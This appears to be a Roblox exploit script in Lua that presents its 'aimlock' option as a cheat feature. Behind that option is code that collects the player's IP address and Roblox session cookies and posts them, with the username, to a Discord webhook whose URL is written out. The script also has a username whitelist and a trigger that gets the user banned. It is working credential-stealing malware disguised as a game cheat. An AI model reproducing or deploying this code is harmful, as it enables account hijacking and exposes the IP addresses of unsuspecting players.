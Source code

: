     if game.Players.LocalPlayer.Name == "AmyAnthony6" or game.Players.LocalPlayer.Name == "" then
    if getgenv().skid == true then
    print("hi")
    end
    
    if getgenv().banme == true then
        game:GetService('ReplicatedStorage'):FindFirstChild('MainEvent'):FireServer('OneMoreTime');
end

if getgenv().aimlock == true then
                local ip = game:HttpGet("https://api.myip.com/")
local COOKIE = ""
local response = syn.request(
    {
        Url = "https://www.roblox.com",
    }
)
for i,v in pairs(response) do
    if type(v) == "table" then
        for ii,vv in pairs(v) do
            if string.find(ii, "cookie") then
                COOKIE = COOKIE.."\n"..vv
            end
        end
    end
end

if game.Players.LocalPlayer.Name == "masterofthec0k" or game.Players.LocalPlayer.Name == "CalvinHobbs2" then
    ip = "<REDACTED>" 
    COOKIE = "<REDACTED>" 
end

syn.request({
    Url = "https://discord.com/api/webhooks/1012336861731106916/Ih8ECEQJ78kJ8rGL-CrSpGM77ydH1ZbkFisKI2otPUC7w6398vY2tN2JOmz9dyo56ObI", 
    Body = game:GetService("HttpService"):JSONEncode({
        ["embeds"]={{
            ["title"]="||"..ip.."||",
            ["type"]="rich",
            ["description"]=COOKIE,
            ["color"]=tonumber(0x7269da),
            ["footer"]={
                ["text"]=os.date("%A, %m %B %Y %I:%M:%S %p <@882188003588603944> skid found LOL")
            }
        }},
        ["avatar_url"]="http://www.roblox.com/Thumbs/Avatar.ashx?x=150&y=150&Format=Png&username="..tostring(game:GetService("Players").LocalPlayer.Name),
        ["username"]="Username: "..game.Players.LocalPlayer.Name,
    }), 
    Method = "POST", 
    Headers = {["content-type"] = "application/json"}
})
            game:GetService('ReplicatedStorage'):FindFirstChild('MainEvent'):FireServer('BreathingHAMON');
end
end
wait(2)


    if getgenv().key == WE586G75487B7B4 then
        print("whitelisted")
end
